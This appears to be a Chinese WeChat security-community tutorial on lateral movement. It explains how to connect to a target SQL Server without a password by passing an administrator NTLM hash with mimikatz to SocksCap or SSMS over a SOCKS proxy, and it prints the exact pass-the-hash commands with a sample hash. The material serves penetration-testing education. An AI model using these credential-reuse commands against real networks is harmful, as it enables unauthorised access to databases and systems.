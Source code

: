 #  横向渗透 | 无密码连接SQL Server的姿势

zksmile  [ sechub安全 ](javascript:void\(0\);)

**sechub安全** ![]()

微信号 secevery0x01

功能介绍
隶属于SecHub网络安全社区，致力于研究渗透测试、红蓝对抗、应急响应、实战案例、钓鱼社工、和漏洞分析，定期分享实战案例、技术教程、安全工具等前沿网络安全资源。

____

___发表于_

收录于合集 #内网渗透 10个

**     点击蓝字 关注我们**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141946.png)

 **免责声明**

本文发布的工具和脚本，仅用作测试和学习研究，禁止用于商业用途，不能保证其合法性，准确性，完整性和有效性，请根据情况自行判断。

如果任何单位或个人认为该项目的脚本可能涉嫌侵犯其权利，则应及时通知并提供身份证明，所有权证明，我们将在收到认证文件后删除相关内容。

文中所涉及的技术、思路及工具等相关知识仅供安全为目的的学习使用，任何人不得将其应用于非法用途及盈利等目的，间接使用文章中的任何工具、思路及技术，我方对于由此引起的法律后果概不负责。

# 一、前言

原理：mssql支持Windows身份验证登录（微软工具ssms支持），很多win机器上都是用administrator用户默认安装的，也就是说只要拿到目标administrator用户的hash，就可以利用本地hash注入，通过socks代理直连目标mssql

# 二、SocksCap

操作流程：用hash注入启动sockscap，把ssms拖到sockscap中启动，连接目标mssql。

分析：为什么要注入启动sockscap，这样在sockscap中启用ssms会自动继承sockscap进程的权限。通过进程分析发现ssms的父进程是sockscap。

## 1.打开mimikatz，hash注入sockscap

    
    
    privilege::debug  
    sekurlsa::pth /user:administrator /domain:192.168.144.146 /ntlm:518b98ad4178a53695dc997aa02d455c "/run:C:\all\SocksCap64\SocksCap64_RunAsAdmin.exe"  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141948.png)

## 2.在sockscap中运行ssms

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141949.png)

## 3.输入目标服务器名称，连接即可

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141950.png)

![]()

## 4.通过进程分析，发现SSMS的父进程是sockscap

    
    
    wmic process where Name="SSMS.exe" get ParentProcessId  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141951.png)

# 三、proxifier

操作流程：打开proxifier。用hash注入启动ssms可连接目标mssql。

分析：sockscap和proxifier的使用方式不同。所以我们只要注入ssms即可。

## 1.启动proxifier

## 2.打开mimikatz，hash注入ssms

    
    
    privilege::debug  
    sekurlsa::pth /user:administrator /domain:192.168.144.146 /ntlm:518b98ad4178a53695dc997aa02d455c "/run:C:\all\ssms\Common7\IDE\Ssms.exe"  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141952.png)

## 3.连接

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141953.png)

![]()

  

欢迎关注SecHub网络安全社区，SecHub网络安全社区目前邀请式注册，邀请码获取见公众号菜单【邀请码】

 **#**

  

 **企业简介    **

  

 **赛克艾威 - 专注政企安全服务**

 **  
**

       北京赛克艾威科技有限公司（简称：赛克艾威），成立于2016年9月，具有中国网络安全审查技术与认证中心安全风险评估服务三级资质CCRC，信息安全保障人员资质CISAW（安全评估专家级）。

  

安全评估|渗透测试|漏洞扫描|安全巡检

代码审计|钓鱼演练|应急响应|安全运维

重大时刻安保|企业安全培训

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141946.png)

 **联系方式**

电话｜010-86460828

官网｜https://sechub.com.cn

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141955.png)

 **关注我们**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141956.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141956.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141957.png)

 **公众号：** sechub安全

 **哔哩号：** SecHub官方账号

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

